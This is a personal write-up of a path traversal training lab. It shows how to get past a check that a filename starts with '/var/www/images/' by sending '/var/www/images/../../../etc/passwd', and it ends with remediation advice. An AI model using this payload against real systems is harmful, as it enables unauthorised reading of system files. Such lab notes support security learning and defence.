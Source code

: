 ## 🧪 Lab: File Path Traversal - Validation of Start of Path  
**Level**: Practitioner  
**Date**: June 15, 2025  
**Goal**: Read `/etc/passwd` even when the application validates the starting path.

---

### 🧰 Tools
- Burp Suite (Repeater / Interceptor)

---

### 🧭 Steps

1. **Intercept the image request**  
   - Navigate to the product page and capture a request like:
     ```
     GET /image?filename=/var/www/images/218.png
     ```

2. **Send to Repeater**

3. **Test absolute payloads**  
   - Try:
     ```
     filename=/etc/passwd
     ```
   - Result: ❌ Missing parameter / validation fails (must begin with `/var/www/images/`)

4. **Test path traversal within expected path**  
   - Inject:
     ```
     filename=/var/www/images/../../../etc/passwd
     ```
   - This bypasses validation and successfully reads the system file.

---

### 💣 Payload
```
/var/www/images/../../../etc/passwd
```

---

### 💡 Observations
- Application requires filenames to start with `/var/www/images/`  
- Omitting this base path causes an error or blocks the request  
- Traversal must be relative to the validated base path  
- Triple sequential `../../../` successfully escapes the folder

---

### 🔒 Remediation
- Sanitize user-supplied file paths  
- Normalize paths on the backend before access  
- Avoid relying on static prefix checks for path validation  
- Hide internal file structure and avoid exposing full path in URLs  
